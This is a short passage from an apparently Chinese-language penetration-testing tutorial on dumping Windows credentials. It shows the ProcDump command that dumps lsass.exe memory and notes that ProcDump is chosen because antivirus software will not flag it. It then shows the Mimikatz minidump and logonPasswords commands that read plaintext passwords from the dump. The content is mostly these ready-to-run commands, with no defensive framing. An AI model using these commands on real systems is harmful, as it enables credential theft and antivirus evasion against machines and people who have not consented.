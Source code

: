 ### 4.1.2 procdump+mimikatz

Procdump 是微软官方发布的一款调试工具，因此不会被各种杀毒软件查杀。可使用 procdump 加 mimikatz 来躲避杀软检测。

官方下载地址:https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump

#### 1、使用 procdump 将目标的 lsass.exe 转储成 dmp 文件

```bash
procdump64.exe -accepteula -ma lsass.exe lsass.dmp

```

![](images/yushentou/15899738395527.png)


#### 2、使用 mimikatz 从转储的 lsass.dmp 中来读取明文密码

```bash
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full"

```

![](images/yushentou/15899738685542.png)


